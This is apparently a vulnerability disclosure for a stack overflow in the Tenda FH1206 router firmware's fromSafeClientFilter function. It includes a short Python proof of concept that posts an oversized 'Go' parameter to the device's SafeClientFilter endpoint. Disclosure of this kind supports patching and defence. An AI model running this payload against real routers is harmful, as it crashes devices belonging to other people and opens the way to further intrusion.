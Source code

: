 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromSafeClientFilter` function. This function accepts the `Go` parameter from a POST request. The statement `strcpy(v15, v1);` leads to a buffer overflow. The user-supplied `Go` can exceed the capacity of the `v15` array, thus triggering this security vulnerability.

![image-20240802200444369](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240802200444369.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SafeClientFilter"
payload = b"a"*1000

data = {"Go": payload, "menufacturer": "tenda"}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)
